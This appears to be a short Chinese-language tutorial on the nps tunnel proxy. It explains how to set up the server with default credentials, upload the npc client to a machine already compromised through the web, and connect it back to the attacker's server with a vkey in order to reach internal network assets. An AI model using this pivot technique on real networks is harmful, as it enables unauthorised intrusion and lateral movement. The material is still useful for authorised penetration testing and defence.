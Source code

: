 # 隧道代理-nps使用

下载地址：

[https://github.com/ehang-io/nps](https://github.com/ehang-io/nps)

使用：

本地windwos作为攻击机启动nps_server

```python
.\nps.exe
```

访问本机：127.0.0.1:8080

默认账户密码是：admin 123 

登录之后接着新建客户端

![Untitled](%E9%9A%A7%E9%81%93%E4%BB%A3%E7%90%86-nps%E4%BD%BF%E7%94%A8%2002a7cdba10164bafb156b2e77f470aed/Untitled.png)

![Untitled](%E9%9A%A7%E9%81%93%E4%BB%A3%E7%90%86-nps%E4%BD%BF%E7%94%A8%2002a7cdba10164bafb156b2e77f470aed/Untitled%201.png)

可以直接全部默认，我们只需要vkey值，留空他会自动帮我们生成

![Untitled](%E9%9A%A7%E9%81%93%E4%BB%A3%E7%90%86-nps%E4%BD%BF%E7%94%A8%2002a7cdba10164bafb156b2e77f470aed/Untitled%202.png)

新建客户端成功

当客户端连接之后，还需要利用隧道去访问客户端内网资产，所以我们这里还要创建一条隧道

![Untitled](%E9%9A%A7%E9%81%93%E4%BB%A3%E7%90%86-nps%E4%BD%BF%E7%94%A8%2002a7cdba10164bafb156b2e77f470aed/Untitled%203.png)

点击隧道

![Untitled](%E9%9A%A7%E9%81%93%E4%BB%A3%E7%90%86-nps%E4%BD%BF%E7%94%A8%2002a7cdba10164bafb156b2e77f470aed/Untitled%204.png)

点击新增

![Untitled](%E9%9A%A7%E9%81%93%E4%BB%A3%E7%90%86-nps%E4%BD%BF%E7%94%A8%2002a7cdba10164bafb156b2e77f470aed/Untitled%205.png)

设置好代理端口，这种是直接在客户端创建隧道，也可以从左侧导航栏创建，不过要设置正确的id值，也就是客户端的id

服务端这边：客户端和隧道新建好之后，下面就是客户端来连接了

加入此刻已经从web撕开了一道口子，成功拿下该机器，可利用蚁剑或者msf等等上传npc客户端

我这边是拿kali当客户端来做演示，所以这里需要上传 linux_amd64_client

![Untitled](%E9%9A%A7%E9%81%93%E4%BB%A3%E7%90%86-nps%E4%BD%BF%E7%94%A8%2002a7cdba10164bafb156b2e77f470aed/Untitled%206.png)

有两种方式来连接，一种是通过配置文件，另外一种是直接输入命令，这里使用第二种，这两种方法都需要借助这个密钥值

kali执行：

```python
./npc -server=npc_server端地址:客户端连接端口 -vkey=2frlwtth1a6nihww
```

![Untitled](%E9%9A%A7%E9%81%93%E4%BB%A3%E7%90%86-nps%E4%BD%BF%E7%94%A8%2002a7cdba10164bafb156b2e77f470aed/Untitled%207.png)

成功连接

![Untitled](%E9%9A%A7%E9%81%93%E4%BB%A3%E7%90%86-nps%E4%BD%BF%E7%94%A8%2002a7cdba10164bafb156b2e77f470aed/Untitled%208.png)

客户端再刷新已经是在线状态了

接着就可以利用代理工具去访问内网资产

![Untitled](%E9%9A%A7%E9%81%93%E4%BB%A3%E7%90%86-nps%E4%BD%BF%E7%94%A8%2002a7cdba10164bafb156b2e77f470aed/Untitled%209.png)

浏览器设置代理即可访问